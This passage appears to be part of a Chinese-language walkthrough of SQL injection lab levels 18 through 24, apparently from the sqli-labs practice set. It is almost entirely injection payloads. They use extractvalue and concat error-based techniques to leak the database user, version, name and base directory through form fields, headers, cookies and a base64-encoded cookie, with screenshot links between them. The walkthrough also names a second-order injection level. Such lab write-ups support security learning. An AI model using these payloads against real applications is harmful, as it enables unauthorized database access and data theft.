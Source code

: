```
uname=admin
&passwd=admin' and extractvalue(1,concat('~',user(),'~')) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/Hd47a227a58c84e20acf91d1f3a11f1322.jpg)

- 第十八关

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
```

- 第十九关

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
```

- 第二十关

![](https://ae01.alicdn.com/kf/H2875b8c3ca7244b7828d6e8714c5b565e.jpg)

```
cookies:Dumb' and extractvalue(1,concat('~',user(),'~')) #
```
![](https://ae01.alicdn.com/kf/Hee729c1c85a043db827212c2bb15d788l.jpg)

- 第二十一关

![](https://ae01.alicdn.com/kf/Hea1fb581ac37430ab72b0596e12c06e51.jpg)

```
YWRtaW4xJylhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBAQGJhc2 VkaXIpLDB4N2UpKSM=
```

![](https://ae01.alicdn.com/kf/H542cd58a78364287877a84227429999eu.jpg)

- 第二十二关

```
admin1"and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

![](https://ae01.alicdn.com/kf/H542cd58a78364287877a84227429999eu.jpg)

- 第二十三关(基于错误无注释)

```
?id=1' and extractvalue(1,concat('~',user(),'~')) or '1'='1
```
![](https://ae01.alicdn.com/kf/Hc9f4864827fe4086a0f440d15a2aa6d7x.jpg)

- 第二十四关(二次注入)

![](https://ae01.alicdn.com/kf/Hdc7d9dc8d5f74cdab476c7fb9fc814eej.jpg)

![](https://ae01.alicdn.com/kf/H2fbe6413ca9c4a7e8d77577d9d51a104J.jpg)
